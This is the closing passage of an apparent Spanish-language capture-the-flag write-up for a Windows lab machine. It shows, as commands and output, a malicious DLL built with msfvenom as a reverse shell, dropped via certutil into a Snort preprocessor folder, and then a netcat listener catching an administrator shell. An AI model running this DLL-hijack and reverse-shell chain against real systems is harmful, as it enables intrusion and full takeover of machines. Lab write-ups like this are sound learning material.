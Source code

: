 - Podemos subir la `dll` maliciosa.

```bash
*Evil-WinRM* PS C:\Snort\lib> icacls snort_dynamicpreprocessor
snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                          BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                          BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                          BUILTIN\Utilisateurs:(I)(CI)(AD)
                          BUILTIN\Utilisateurs:(I)(CI)(WD)
                          CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

- Podemos crear la `dll` con `msfvenom`.

```bash
➜  content msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.63 LPORT=443 -f dll -a x64 -o mg.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: mg.dll
```

- Ahora lo pasamos ala maquina.

```bash
➜  content python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.250 - - [07/Jun/2024 15:33:59] "GET /mg.dll HTTP/1.1" 200 -
10.10.11.250 - - [07/Jun/2024 15:33:59] "GET /mg.dll HTTP/1.1" 200 -
```

```bash
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> certutil.exe -f -urlcache -split http://10.10.14.63/mg.dll
****  Online  ****
  0000  ...
  2400
CertUtil: -URLCache command completed successfully.
```

## Shell as root

- `Snort` carga la `dll` automáticamente cada cierto tiempo así que cuando la carga nos llega la `shell`.

```bash
➜  content rlwrap -cAr nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.10.11.250] 55072
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\administrateur
```

## Root flag

```bash
C:\Users\Administrateur\Desktop>type root.txt
type root.txt
68d63d846dcaa03ffaaa05975e3a40f1
```
